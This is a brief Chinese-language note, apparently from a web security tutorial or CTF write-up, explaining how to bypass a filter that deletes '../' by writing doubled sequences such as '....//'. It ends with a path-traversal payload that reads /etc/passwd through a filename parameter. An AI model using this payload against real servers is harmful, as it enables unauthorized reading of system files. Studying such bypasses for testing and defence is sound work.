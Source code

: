 ../被替换为空

可以使用双写的形式绕过，例如：

```javascript
....//....//
.././.././
```

当../被替换为空时，payload又变成了../



payload:

```javascript
filename=..././..././..././etc/passwd
```

